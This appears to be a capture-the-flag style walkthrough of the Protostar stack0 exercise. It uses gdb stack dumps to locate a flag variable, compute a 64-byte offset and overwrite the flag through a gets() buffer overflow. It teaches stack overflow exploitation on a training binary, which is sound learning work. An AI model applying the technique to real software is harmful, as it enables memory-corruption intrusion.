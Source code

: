 We can then use the logic of the program to check this value before and after the value is set:

```
(gdb) x/wx $esp+0x5c
0xbffffc9c:	0xb7fd7ff4
(gdb) ni
11	in stack0/stack0.c
(gdb) x/wx $esp+0x5c
0xbffffc9c:	0x00000000
```

As we see above, the address "0xbffffc9c" is where our 'flag' is stored and it holds the value of 0. 

Now we know the location of this value of the stack, we want to track where our defined input is being stored to see if overflowing the target buffer could affect this target. Place a breakpoint just after the gets() function and examine the stack:

```
(gdb) x/60wx $esp
0xbffffc40:	0xbffffc5c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffffc50:	0xb7fd7ff4	0xb7ec6165	0xbffffc68	0x41414141 <--- start of input AAAA
0xbffffc60:	0x42424242	0x08049600	0xbffffc78	0x080482e8
0xbffffc70:	0xb7ff1040	0x08049620	0xbffffca8	0x08048469
0xbffffc80:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffffca8
0xbffffc90:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000 <--- Our 0x0 flag
0xbffffca0:	0x08048450	0x00000000	0xbffffd28	0xb7eadc76
0xbffffcb0:	0x00000001	0xbffffd54	0xbffffd5c	0xb7fe1848
0xbffffcc0:	0xbffffd10	0xffffffff	0xb7ffeff4	0x0804824b
0xbffffcd0:	0x00000001	0xbffffd10	0xb7ff0626	0xb7fffab0
0xbffffce0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffffcf0:	0xbffffd28	0xb463ad27	0x9e22bb37	0x00000000
0xbffffd00:	0x00000000	0x00000000	0x00000001	0x08048340
0xbffffd10:	0x00000000	0xb7ff6210	0xb7eadb9b	0xb7ffeff4
0xbffffd20:	0x00000001	0x08048340	0x00000000	0x08048361
```

As we can see above, my input was "AAAABBBB" and can be seen starting at the address "0xbffffc5c" and continuing for 8 bytes dictated by the "41414141 42424242". If we continue down (actually, up) the stack we see our 'flag' the target address of "0xbffffc9c". As this is further down (up) the stack than our controllable buffer contents, we should be able to overflow the buffer and overwrite the flag's value.

The different of these addresses can be calculated by getting the difference between the two values. We get the decimal value of 64. This dictates how many bytes we need to write into our buffer to eventually control the value of our flag. To test this, I wrote enough 'A' characters to reach the flag and then replace the value with 4  'B' characters:

```
(gdb) x/60wx $esp
0xbffffc40:	0xbffffc5c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffffc50:	0xb7fd7ff4	0xb7ec6165	0xbffffc68	0x41414141
0xbffffc60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc70:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc80:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc90:	0x41414141	0x41414141	0x41414141	0x42424242 <--- Our flag
0xbffffca0:	0x08048400	0x00000000	0xbffffd28	0xb7eadc76
0xbffffcb0:	0x00000001	0xbffffd54	0xbffffd5c	0xb7fe1848
0xbffffcc0:	0xbffffd10	0xffffffff	0xb7ffeff4	0x0804824b
```
